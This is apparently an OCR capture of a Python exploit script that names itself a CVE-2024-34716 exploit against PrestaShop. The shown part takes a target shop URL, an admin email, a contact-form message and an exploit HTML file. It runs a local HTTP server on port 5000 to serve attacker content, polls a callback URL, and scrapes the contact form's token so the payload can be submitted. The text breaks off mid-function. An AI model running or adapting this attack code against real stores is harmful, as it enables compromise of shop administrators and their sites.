 ```python
        email = input("[?] Please enter your email: ")
        message_content = input("[?] Please enter your message: ")
        exploit_path = input("[?] Please provide the path to your HTML file: ")
    elif num_args < 5:
        usage()
        sys.exit(1)
    else:
        parser = argparse.ArgumentParser(description="CVE-2024-34716 Exploit")
        parser.add_argument("host_url", help="The Presta Shop base url.")
        parser.add_argument("email", help="The email address of admin user.")
        parser.add_argument("message_content", help="Message to send in Contact Us form.")
        parser.add_argument("exploit_path", help="The path of the exploit HTML.")

        args = parser.parse_args()

        host_url = args.host_url
        email = args.email
        message_content = args.message_content
        exploit_path = args.exploit_path

        print("[X] Starting exploit with:")
        print(f"\tUrl: {host_url}")
        print(f"\tEmail: {email}")
        print(f"\tMessage: {message_content}")
        print(f"\tExploit path: {exploit_path}")

    return (host_url, email, message_content, exploit_path)


def send_get_requests(url, interval=5):
    while not stop_event.is_set():
        try:
            response = requests.get(url)
            print(f"GET request to {url}: {response.status_code}")
        except requests.RequestException as e:
            with print_lock:
                print(f"Error during GET request: {e}") # Can comment this out if thread isn't stopped.
        time.sleep(interval)


def run_http_server():
    PORT = 5000
    with socketserver.TCPServer(("", PORT), CustomRequestHandler) as httpd:
        with print_lock:
            print("Serving at http.Server on port", PORT)
        while not stop_event.is_set():
            httpd.handle_request()


def main():
    host_url, email, message_content, exploit_path = __parse_args(sys.argv)

    with open(exploit_path, 'r') as file:
        html_content = file.read()

    url = f"{host_url}/contact-us"

    response = requests.get(url)
    response.raise_for_status()

    soup = BeautifulSoup(response.text, 'html.parser')
    token = soup.find('input', {'name': 'token'})['value']
```